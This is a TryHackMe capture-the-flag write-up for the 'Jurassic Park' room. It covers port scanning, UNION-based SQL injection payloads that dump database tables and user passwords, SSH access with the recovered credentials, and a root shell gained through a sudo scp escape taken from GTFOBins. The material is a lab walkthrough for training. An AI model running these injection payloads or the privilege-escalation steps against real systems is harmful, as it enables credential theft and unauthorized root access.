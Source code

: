 ```yaml
---
clayout: ctf
title: Jurassic Park
type: TryHackMe
date: 2025-09-06
level: Hard
icon: /ctf/tryhackme/jurassic-park/icon-room.png
image: /ctf/tryhackme/jurassic-park/icon-room.png
banner: /ctf/tryhackme/jurassic-park/banner-room.png
description: A Jurassic Park CTF
ctf-link: https://tryhackme.com/room/jurassicpark
---
```


## Challenge Overview

The target machine hosts a Jurassic Park–themed application. The goal is to enumerate services, identify vulnerabilities, exploit SQL injection to gain credentials, pivot to SSH access, and escalate privileges to root.

## Enumeration

### Nmap

We start with a service scan:

```bash
nmap -sC -sV -p- -oN nmap.txt 10.10.73.33
```

**Results:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

**Key Findings:**

* **SSH** (22/tcp) → OpenSSH 7.2p2 (Ubuntu 16.04)
* **HTTP** (80/tcp) → Apache 2.4.18 serving a simple website

### Web Enumeration

Accessing `http://10.10.73.33` shows a Jurassic Park–themed homepage with a package shop.

![Jurassic Park Home](/ctf/tryhackme/jurassic-park/home.png)

* Package detail pages use the parameter `id` (`item.php?id=1`).
* Injecting a double quote (`"`) into the parameter produces a **MySQL syntax error**, confirming SQL injection.

With the `id` parameter set to `5`, we can see the following page:

![Jurassic Park Item](/ctf/tryhackme/jurassic-park/item-5.png)

Those words `'` `#` `DROP` `-` `username` `@` `----` are blocked, we can't use them in the payload. Using these words, we got this error:

![Jurassic Park Error](/ctf/tryhackme/jurassic-park/sql-injection-error.png)

## Exploitation

### SQL Injection

Testing the injection with UNION queries reveals the number of columns and confirms exploitation is possible.

**Extracting database version:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,VERSION()
```

**Output:**
`5.7.25-0ubuntu0.16.04.2` (Ubuntu 16.04)

**Enumerating tables:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()
```

**Output:**
`items,users`

**Enumerating columns from `users`:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name="users"
```

**Output:**
`id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

**Dumping credentials:**

```sql
?id=1 UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(password) FROM users
```

**Output:**
`D0nt3ATM3,ih8dinos`

### Initial Access (SSH)

With the credentials, we gain SSH access:

```bash
ssh dennis@10.10.73.33
```

```bash
$ id
uid=1001(dennis) gid=1001(dennis) groups=1001(dennis)
```

> [!IMPORTANT] First flag
> `/home/dennis/flag1.txt`

### Second flag

Using `find`, we can find the second flag:

```bash
find / -type f -name "*flag*.txt" 2>/dev/null
```

> [!IMPORTANT] Second flag
> `/boot/grub/fonts/flagTwo.txt`

### Third flag

Using `grep`, we can find the third flag:

```bash
grep -Rsi "flag" /home 2>/dev/null
```

> [!IMPORTANT] Third flag
> `/home/dennis/.bash_history`

## Privilege Escalation

### Sudo Privileges

Checking sudo permissions:

```bash
sudo -l
```

**Output:**

```text
User dennis may run the following commands on ip-10-10-29-186:
    (ALL) NOPASSWD: /usr/bin/scp
```

The `scp` binary is listed, which can be abused via [GTFOBins](https://gtfobins.github.io/gtfobins/scp/#sudo).

![Sudo](/ctf/tryhackme/jurassic-park/gtfobins-scp.png)

### Root Shell via SCP

Following the GTFOBins method:

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

We now have a root shell:

```bash
$ id
uid=0(root) gid=0(root) groups=0(root)
```

> [!IMPORTANT] Fifth flag
> `/root/flag5.txt`

## References

* [GTFOBins – scp](https://gtfobins.github.io/gtfobins/scp/#sudo)

